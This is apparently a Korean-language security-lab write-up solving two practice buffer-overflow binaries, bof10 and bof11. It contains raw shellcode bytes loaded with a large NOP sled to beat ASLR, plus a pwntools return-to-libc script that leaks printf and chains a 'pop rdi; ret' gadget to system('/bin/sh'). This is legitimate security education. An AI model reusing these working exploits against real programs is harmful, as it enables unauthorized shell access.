










# bof10,11 풀이
<details>
<summary>bof10 풀이</summary>
<div markdown="1">
bof10. 코드

> SHELLOCDE 환경변수를 설정해서 하는 방법은 `bof8.c`와 매우 유사하다. 그러나 `ASLR ON`이 되어있다!! <BR>***ASLR이 ON이 되어 있으면 실행할 때마다 메모리의 주소가 바뀐다.***<BR>우선 `buf`의 크기가 8byte밖에 되지 않기때문에 **쉘코드**를 넣는 것이 불가능 하다.*(쉘코드의 크기는 27byte)* `bof8`에서 한 방법대로 `export`명령어를 사용하여 `SHELLCODE`환경 변수 값을 설정해준다. <BR>***이 프로그램은 32byte이기 때문에 32byte에 맞는 쉘코드를 넣어주어야 한다!!***

> 우선 SHELLCODE 환경변수를 설정했다.<BR>> ```export SHELLCODE=`python -c "print '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```

> `buf`와 `return`주소의 차이를 구해야 하는데 진짜 너무 많이 했으므로 과정은 생략한다. *한가지 다른점은 이 프로그램은 32byte이기 때문에 `r`이 없다는 것이다.* <BR>이렇게 거리를 구하면 20이 나온다.

> `bof8`과 같이 `buf`에 `쓰레기값 20byte만큼 + 쉘코드의 환경변수 주소`를 넣으면 되지 않을까? 한번 해보았다.

> <br>되지 않는다. 환경변수로 설정해준 `SHELLCODE`의 주소가 계속 바뀌는 것을 볼 수 있다. <BR>***ASLR이 ON되어 있기 때문이다!!***<BR>`SHELLCODE`의 주소가 계속 바뀌는데 다음에 어떻게 바뀔지 예측하고 `SHELLOCDE`의 환경변수 주소를 정확하게 찾는 것은 현실적으로 불가능하다.<BR>이 때 사용할 방법은 `NOP`이다. 

> `SHELLCODE` 환경변수를 설정해 줄때 쉘코드 앞에 여러개의 `NOP`를 붙여주면 어디선가 얻어 걸려서 쭈우우욱 타고 내려와 쉘코드를 만나게 된다. `NOP`를 얼마나 넣을지는 위 방법대로 계속 돌려봤을 때 `SHELLOCDE` 주소의 **최대-최소**를 구하면 되겠지만 매우 귀찮으므로 적절한 값을 찾아주는 방법을 사용한다.

> 너무 많은 숫자를 넣으면 다음과 같은 오류가 나타난다. <br>여러번 실행해본 결과 130000이 적당했다. 쉘코드 앞에 `NOP`를 130000번 반복해주면 된다.

> ```export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"` ```<BR>이 명령어를 통해 SHELLCODE 환경변수를 설정해준다. *(`\x90`이  NOP이다.)*<BR>

> <br> 이후 다음과 같은 명령어를 통해 `./bof10`을 실행시켰더니 또 오류가 뜬다. 내가 `SHELLCODE`환경변수에 `NOP`를 **130000**번 반복해서 얻은 범위에 얻어 걸려야 하는데 운이 나빠 걸리지 않은 것이다. 그래서 계속 실행하면서 얻어걸릴 때 까지 반복해야 하므로 while문을 사용한다.

> <br>다음과 같이 매우 편리한 방법이 있다. 그러면 계속 반복하다가 어느순간 쉘이 실행되면서 멈추게 되는데 바로 이때이다.<br><br>**문제 해결 !**
</div>
</details>
<details>
<summary>bof11 풀이</summary>
<div markdown="1">
bof11.c 코드

> 일단 `bof10`과 같이 `ASLR`이 **ON**되어있다. 그러나 환경변수 주소를 리턴해주는 코드가 없다. 지금까지 배웠던 방법 중 어떤 방법을 사용하면 될까? 바로 `bof9`에서 썼던 **RTL**이다. 

> **RTL**에 대한 자세한 설명은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다.<br>`RTL`을 사용하기 위해 구해야 할것은 다음과 같다.
> - `buf`와 `return`주소의 사이 거리 
> - `"pop rdi ; ret"`의 주소
> - `/bin/sh`의 주소
> - `system`함수의 주소

> 그러나 현재 이 파일은 `ASLR`이 **ON**되어 있으므로 **gdb**를 통해 주소값을 구하고 나와 실행시킬 때 해당 주소값을 넣으면 아무런 의미가 없다. 계속 메모리의 주소값이 바뀌기 때문이다. <br>그럼 아예 방법이 없는 것일까?<br>아니다. 코드를 잘보면 `printf("printf() address : %p\n)",print);`구문을 통해 `printf`함수의 주소 값을 출력해준다. 이 말은 즉, 오브젝트파일이 실행될 때 마다 바뀌는 `printf`의 주소값을 그때그때 알 수 있다는 것이다.

> `ASLR`을 통해 메모리의 주소는 계속 바뀌지만 함수간의 주소거리는 바뀌지 않는다는 점을 이용한다. 위에서 언급한 코드를 통해 `printf`주소의 바뀌는 값은 알 수 있기 때문에 **gdb** 디버깅을 통해 **위에서 언급한 필요한 주소들**과 `printf`함수의 주소의 거리를 구해놓는다면 메모리주소가 계속 바뀌어도 상관이 없다!

> 하나씩 차이를 구해보자. *(**gdb**실행 후 `r`을 통해 실행 할 때마다 주소가 바뀌기 때문에 1트안에 모든 것을 구하는 것이 편하다.)*
>> 1. `printf` <-> `system`<br><br>**`system`주소 - `print`주소 = -66672**
>> 2. `printf` <-> `/bin/sh`<br><br>**`/bin/sh`주소 - `print`주소 = 1275223**
>> 3. `printf` <-> `pop rdi ; ret`<br>`vmmap`과 `ROPgadget.py`를 이용하여 `pop rdi ; ret`의 주소를 얻는 방법은 <a hrep="https://github.com/JeongSeongMok/GBC_Security/tree/master/HW_8">HW_8</a>의 <a hrep="https://github.com/JeongSeongMok/GBC_Security/blob/master/HW_8/README.md">README.md</a>에 있다. 구해서 빼준 결과<br>**`pop rdi ; ret`주소 - `print`주소 = -214782**

> 그러나 또 문제가 있다. `./bof11`로 실행해서 출력값으로 `printf`의 주소 값을 보고나고 실행이 종료되면 다시 `printf`의 주소 값이 바뀌기 때문에 다음 `printf`의 주소값을 예측하는 것은 현실적으로 불가능하다. 그래서 **pwntools**라는 것을 이용한다.

> 아무이름의 python파일을 만들고 다음과 같은 코드를 입력한다.
```
from pwn import *

p = process('./bof11') // ./bof11 프로세스를 p에 저장

p.recvuntil('printf() address : ')
printf_addr = p.recvuntil('\n') // '\n'까지 입력된 출력된 값을 printf_add에 저장
printf_addr = int(printf_addr, 16) // 형 변환

// 위에서 구한 차이를 이용하여 system, /bin/sh, pop rdi ; ret의 위치를 printf의 주소를 이용해 접근한다.
sys_a = printf_addr + (-66672) 
binsh_a = printf_addr + (1275223)
poprdi_a = printf_addr + (-214782)

//exploit에 페이로드 저장
exploit = str.encode("x" * 18)
exploit += p64(poprdi_a) + p64(binsh_a) + p64(sys_a)
p.send(exploit)

p.interactive()
```

> `python3`를 이용하여 만든 python파일을 실행 시키면 다음과 같이 나온다.<br><br>**성공!!**
</div>
</details>